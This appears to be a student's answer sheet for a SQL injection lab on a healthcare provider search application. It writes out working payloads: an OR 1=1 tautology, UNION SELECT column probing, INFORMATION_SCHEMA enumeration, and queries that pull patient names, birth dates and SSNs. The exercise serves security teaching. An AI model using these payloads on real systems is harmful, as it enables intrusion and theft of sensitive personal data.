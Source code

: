 # Individual's Name:
1. We get a HTTP Status 500 – Internal Server Error
2. We know that a MySQL database is being used.
3. It shows all the providers in the database
4. We know how the input is being inserted into the program's SQL statement.
5.	String sql =
	select * from general_info2.provider where SPECIALTY = 'ALLERGIST'
	and LNAME like '' or 1=1 or '%' order by LNAME, FNAME, NPI
	
6.HTTP Status 500 – Internal Server Error
7.The database selects more than 3 columns
8. 'union select '1', '2', '3', '4', '5', '6', '7', '8', '9', '10
9. Data from columns 2,4,3,7 show up in a table with NPI, NAME, STATE
														2,   4,3,    7
														
10.Only columns from from 2,4,3,7 will show data
11.' union select '', table_schema, column_name, table_name,
'', '', concat(data_type, ':', privileges), '', '',
'' from INFORMATION_SCHEMA.COLUMNS where 1=1 or '2'='
12. information_schema. general_info2, claims, general_info2
13. ' union select distinct '', table_schema, table_name, '', '', '', '', '', '', '' from INFORMATION_SCHEMA.COLUMNS
where table_schema not in ('information_schema', 'mysql', 'performance_schema') and 1=1 or '2'='
14. Only one pair of distinct combinations were sent.
15. Claims schema with the doctor_claims, hospital_claims, and patients
16. ' union select '', '', column_name, data_type, privileges, '', '', '', '', ''
from INFORMATION_SCHEMA.COLUMNS where (table_schema = 'claims' and table_name = 'patients')
and 1=1 or '2'='
17. SSN looks very interesting
18. ' union select '', ID, First_Name, last_name, '', '', SSN, '', '', ''
from claims.patients where 1=1 or '2'='
19. Provider names and their SSN
20. ' union select '', concat(ID, birth_date), First_Name, last_name, '', '', SSN, '', '', ''  
from claims.patients where 1=1 or '2'='
21. I see the table schemas, data types and priveleges
22. No, because an attacker can still edit the files locally and submit this form to the server.


